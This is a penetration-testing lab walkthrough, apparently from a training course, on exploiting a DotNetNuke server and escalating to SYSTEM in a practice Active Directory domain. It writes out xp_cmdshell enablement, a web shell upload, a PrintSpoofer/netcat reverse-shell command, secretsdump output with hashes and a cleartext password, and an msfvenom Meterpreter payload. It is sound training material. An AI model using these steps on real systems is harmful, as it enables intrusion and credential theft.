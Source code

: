 ## Exploitation & Privilege Escalation

At this point, we have moved from the **Information Gathering and Vulnerability Assessment** stages into the **Exploitation stage** of the Penetration Testing Process. After obtaining a foothold, we enumerated what hosts were available to us, scanned for open ports, and probed the accessible services.


### Attacking DNN (DotNetNuke)

Let's head over to DNN and try our luck with the credential pair **Administrator:D0tn31Nuk3R0ck$$@123**. This is a success; we are logged in as the SuperUser administrator account. Here we would want to record another two high-risk findings: **Insecure File Shares and Sensitive Data on File Shares**. We could potentially combine these into one, but it's worth highlighting as separate issues because if the client restricts anonymous access, but all Domain Users can still access the share and see data that is not necessary for their day-to-day work, then there is a still a risk present.


![DNN SQL Console](/Exploitation-and-Privilege-Escalation/images/DNN-sql-console.png) 

A SQL console is accessible under the **Settings** page where we can enable **xp_cmdshell** and run operating system commands. We can first enable this by pasting these lines into the console one by one and clicking **Run Script**. We won't get any output from each command, but no errors typically means it's working.

EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE

![xp_cmdshell](/Exploitation-and-Privilege-Escalation/images/xp_cmdshell.png) 


If this works, we can run operating system commands in the format **xp_cmdshell '<command here>'**. We could then use this to obtain a reverse shell or work on privilege escalation.

![xp cmdshell](/Exploitation-and-Privilege-Escalation/images/xp_cmdshell-2.png) 

![xp cmdshell](/Exploitation-and-Privilege-Escalation/images/xp_cmdshell-3.png) 


What's also interesting about DNN is we can [change the allowable file extensions](https://dnnsupport.dnnsoftware.com/hc/en-us/articles/360004928653-Allowable-File-Types-and-Extensions-for-Upload) to allow **.asp and .aspx** files to be uploaded. This is useful if we cannot gain RCE via the SQL console. If this is successful, we can upload an ASP web shell and gain remote code execution on the **DEV01** server. The allowed file extensions list can be modified to include .asp and .aspx by browsing to **Settings -> Security -> More -> More Security Settings and adding them under Allowable File Extensions, and clicking the Save button**. Once this is done, we can upload an ASP webshell after browsing to **http://172.16.8.20/admin/file-management**. Click the upload files button and select the ASP web shell we downloaded to our attack host.


Once uploaded, we can right-click on the uploaded file and select **Get URL**. The resultant URL will allow us to run commands via the web shell, where we could then work to get a reverse shell or perform privilege escalation steps, as we'll see next.


![Shell Upload](/Exploitation-and-Privilege-Escalation/images/aspx-shell-upload.png) 


### Privilege Escalation

![whoami /priv](/Exploitation-and-Privilege-Escalation/images/whoami-priv.png) 

Next, we need to escalate privileges. In the command output above, we saw that we have **SeImpersonate privileges**. Following the steps in the [SeImpersonate and SeAssignPrimaryToken](https://academy.hackthebox.com/module/67/section/607) section in the **Windows Privilege Escalation** module, we can work to escalate our privileges to SYSTEM, which will result in an initial foothold in the Active Directory (AD) domain and allow us to begin enumerating AD.


We'll try escalating privileges using the **PrintSpoofer** tool and then see if we can dump any useful credentials from the host's memory or registry. We'll need **nc.exe on the DEV01 host to send ourselves a shell and the PrintSpoofer64.exe binary to leverage SeImpersonate privileges**. There are a few ways we can transfer them up there. We could use the dmz01 host as a "jump host" and transfer our tools through it via SCP and then start a Python3 web server and download them onto the DEV01 host using **certutil**.


An easier way would be to modify the DNN **Allowable File Extensions** once again to allow the **.exe** file format. We can then upload both of these files and confirm via our shell that they are located in **c:\DotNetNuke\Portals\0**.

Once uploaded, we can start a **Netcat** listener on the **dmz01** host and run the following command to obtain a reverse shell as **NT AUTHORITY\SYSTEM**:

	c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"


![Print Spoofer](/Exploitation-and-Privilege-Escalation/images/PrintSpoofer.png) 

We execute the command and get a reverse shell almost instantly.


From here, we can perform some post-exploitation and manually retrieve the contents of the SAM database and with it, the local administrator password hash.


![registry files](/Exploitation-and-Privilege-Escalation/images/reg-files.png) 


Now we can once again modify the allowed file extensions to permit us to down the **.SAVE** files. Next, we can go back to the **File Management** page and download each of the three files to our attack host.


Finally, we can use **secretsdump** to dump the SAM database and retrieve a set of credentials from LSA secrets.

![secretsdump](/Exploitation-and-Privilege-Escalation/images/secretsdump.png) 

	$ secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE                 
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs
		                                                                                              
	[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944                                      
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                               
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e20798f695ab0d04bc138b22344cea8:::             
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                     
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::            
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::        
	mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::             
	[*] Dumping cached domain logon information (domain/username:hash)                                 
	INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc: (2022-06-23 04:59:45)
	[*] Dumping LSA Secrets                                                                            
	[*] $MACHINE.ACC                                                                                   
	$MACHINE.ACC:plain_password_hex:025794ad72a6900a3ef3fe914a4506956b2ad1b99a02553b8b0cb783e489c192bcb30f6b3afe01be33f616c0d1137255f4f9deff12cf3b21e368ed8ad8ef4ff21d0b8bf92754aae785a02016ae38638ba82146f2ef978970571575e0e1b60cb99dc0b645ac15412a03ea31b300f227f516668d44fdddaba9ae2c0d3d9c4979c0235cec33f44676f94b767f88821226008d12c77147bdabcff4494a33c1ff47f0af69940011c6f2ff0e62c94a2f78987ffc21754241c09bb96133a2ff2add5ce0a51de2f96b3f4f1cc3f96fe94bd2d00660186c1cf3fc02700cddf51aedb6b144847e446fc367d1ffe3d40a8335091946
	$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:0f07260f38397035724ab39e3f4fa5c8                    
	[*] DefaultPassword                                                                                
	(Unknown User):Gr8hambino!                                                                         
	[*] DPAPI_SYSTEM                                                                                   
	dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22                                
	dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92                                           
	[*] NL$KM                                                                                          
	 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...                        
	 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".                        
	 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.                        
	 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-                        
	NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
	[*] Cleaning up...


We confirm that these credentials work using **CrackMapExec** and we now have a way back to this system should we lose our reverse shell.

![crackmapexec](/Exploitation-and-Privilege-Escalation/images/cme.png) 

From the **secretsdump** output above, we notice a cleartext password, but it's not immediately apparent which user it's for. We could dump LSA again using **CrackMapExec** and confirm that the password is for the **hporter** user.

We now have our first set of domain credentials for the INLANEFREIGHT.LOCAL domain, **hporter:Gr8hambino!**. We can confirm this from our reverse shell on **dmz01**.


### Reverse Port Forwarding / Reverse Proxy


There are many ways to attack this network and achieve the same results, so we will not cover them all here, but one worth mentioning is [Remote/Reverse Port Forwarding with SSH](https://academy.hackthebox.com/module/158/section/1427). Let's say we want to return a reverse shell from the **DEV01** box to our attack host. We can't do this directly since we're not in the same network, but we can leverage **dmz01** to perform reverse port forwarding and achieve our goal. We may want to get a Meterpreter shell on the target or a reverse shell directly for any number of reasons. We could have also performed all of these actions without ever getting a shell, as we could have used **PrintSpoofer** to add a local admin or dump credentials from **DEV01** and then connect to the host in any number of ways from our attack host using **Proxychains (pass-the-hash, RDP, WinRM, etc.)**. See how many ways you can achieve the same task of interacting with the **DEV01** host directly from your attack host. It's essential to be versatile, and this lab network is a great place to practice as many techniques as possible and hone our skills.

> - 1. Let's walk through the reverse port forwarding method quickly. First off, we need to generate a payload using msfvenom. Note that here we'll specify the IP address of the **dmz01** pivot host in the lhost field and NOT our attack host IP as the target would not be able to connect back to us directly.

	$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP of internal pivot host> lport=443 -f exe -o rev-proxy.exe

![meterpreter pivot payload](/Exploitation-and-Privilege-Escalation/images/pivot-host-payload.png) 


> - 2. Next, we need to set up a **multi/handler** and start a listener on a different port than the payload we generated will use.

![pivot listener](/Exploitation-and-Privilege-Escalation/images/pivot-listener.png) 


> - 3. Next, we need to upload the **rev-proxy.exe** reverse shell payload to the **DEV01** target host. We can SCP it up to **dmz01**, start a Python web server on that host and then download the file. Alternatively, we can use the DNN file manager to upload the file as we did previously. With the payload on the target, we need to set up **SSH remote port forwarding** to forward the dmz01 pivot box port **443** to the Metasploit listener port **7000**. The **R** flag tells the pivot host to listen on port **443** and forward all incoming traffic to this port to our Metasploit listener at **0.0.0.0:7000** configured on our attack host.

![pivot payload transfer](/Exploitation-and-Privilege-Escalation/images/dmz-payload-transfer.png) 

![dev01 payload](/Exploitation-and-Privilege-Escalation/images/dev01-payload.png) 


![Remote SSH](/Exploitation-and-Privilege-Escalation/images/remote-ssh.png) 


> - 4. Next, execute the dev01-443.exe payload from the **DEV01** host, and if all goes to plan, we'll get a connection back.

![dev connection](/Exploitation-and-Privilege-Escalation/images/dev01-shell.png) 

A caveat to the above method is that, by default, OpenSSH only allows connection to remote forwarded ports from the server itself (localhost). To allow this, we must edit the **/etc/ssh/sshd_config** file on Ubuntu systems and change the line **GatewayPorts no to GatewayPorts yes**, otherwise we will not be able to get a call back on the port we forwarded in the SSH command (port 443 in our case). To do this, we would need root SSH access to the host we are using to pivot from. At times we will see this configuration set up like this, so it works straight away, but if we don't have root access to the host with the ability to temporarily modify the SSH config file (and reload it to take effect using **service sshd reload**), then we won't be able to perform port forwarding in this way. Keep in mind that this type of change opens up a security hole in the client's system, so you'd want to clear it with them, note down the change, and make every effort to revert it at the end of testing. This [post](https://www.ssh.com/academy/ssh/tunneling/example) is worth reading to understand SSH Remote Forwarding better.  
